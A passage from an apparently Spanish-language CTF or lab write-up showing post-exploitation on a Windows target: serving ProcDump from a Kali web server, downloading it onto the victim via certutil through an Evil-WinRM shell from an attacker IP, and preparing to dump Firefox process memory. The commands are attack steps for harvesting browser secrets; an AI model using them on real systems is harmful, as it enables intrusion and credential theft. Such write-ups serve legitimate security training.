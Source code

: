 A través de la herramienta de `ProcDump` de `Sysinternals`, lo que realizaremos es un volcado de memoria del proceso de Firefox para disponer y verificar la información del proceso.

{% embed url="https://learn.microsoft.com/es-es/sysinternals/downloads/procdump" %}

Nos descargaremos el archivo comprimido `Procdum.zip` de la página oficial de `Sysinternals`. Una vez descomprimido, levantaremos un servidor web para compartir el archivo.

```bash
❯ ls -l
.rw-rw-r-- kali kali 714 KB Fri Jan 24 18:37:44 2025  Procdump.zip
❯ unzip Procdump.zip
Archive:  Procdump.zip
  inflating: procdump.exe            
  inflating: procdump64.exe          
  inflating: procdump64a.exe         
  inflating: Eula.txt                
❯ ls -l
.rw-rw-r-- kali kali 7.3 KB Thu Nov  3 15:55:00 2022  Eula.txt
.rw-rw-r-- kali kali 773 KB Thu Nov  3 15:55:14 2022  procdump.exe
.rw-rw-r-- kali kali 714 KB Fri Jan 24 18:37:44 2025  Procdump.zip
.rw-rw-r-- kali kali 415 KB Thu Nov  3 15:55:14 2022  procdump64.exe
.rw-rw-r-- kali kali 398 KB Thu Nov  3 15:55:14 2022  procdump64a.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, nos descargaremos el binario de `ProcDump64.exe`.

```bash
*Evil-WinRM* PS C:\Test> certutil.exe -f -urlcache -split http://10.10.16.5/procdump64.exe
****  Online  ****
  000000  ...
  067b98
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Test> dir


    Directory: C:\Test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/24/2025  11:10 PM         424856 procdump64.exe
```

Realizaremos un volcado de memoria sobre el proceso de Firefox y nos descargaremos el volcado de memoria realizado.

{% hint style="warning" %}
Hay que realizar el volcado de memoria del proceso de Firefox que esté consumiendo más procesos, en nuestr caso era el 6716.
{% endhint %}
